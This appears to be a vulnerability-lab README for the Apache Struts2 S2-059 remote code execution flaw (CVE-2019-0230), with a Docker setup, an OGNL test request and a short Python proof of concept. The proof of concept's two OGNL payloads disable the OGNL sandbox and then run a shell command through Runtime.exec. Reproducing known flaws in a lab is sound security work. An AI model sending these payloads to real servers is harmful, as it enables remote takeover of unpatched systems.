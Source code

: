 # Struts2 S2-059 Remote Code Execution Vulnerablity(CVE-2019-0230)

[中文版本(Chinese version)](./README.zh-cn.md)

Affected Version: Struts 2.0.0 - Struts 2.5.20

## Details

The Apache Struts frameworks, when forced, performs double evaluation of attributes' values assigned to certain tags attributes such as id so it is possible to pass in a value that will be evaluated again when a tag's attributes will be rendered. With a carefully crafted request, this can lead to Remote Code Execution (RCE).

## Reference

https://cwiki.apache.org/confluence/display/WW/S2-059

## Setup

Start the Struts 2.5.16 environment:

```
docker-compose up -d
```
After the environment is started, visit `http://your-ip:8080/?id=1` and you will see the Struts2 test page.

## Exploit

POC: 

visit `http://your-ip:8080/?id=%25%7B233*233%7D`

It can be seen that the result of 233*233 has been returned in the id attribute

![1.png](./1.png)

[OGNL Apache Struts exploit: Weaponizing a sandbox bypass (CVE-2018-11776)](https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776)gives details of sandbox bypass in Struts 2.5.16 

A simple Python POC for Verifying the vulnerability

```python
import requests
url = "http://127.0.0.1:8080"
data1 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"
}
data2 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('touch /tmp/success'))}"
}
res1 = requests.post(url, data=data1)
# print(res1.text)
res2 = requests.post(url, data=data2)
# print(res2.text)
```

excute the poc and the `touch /tmp/success` command will be excuted
![2.png](./2.png)




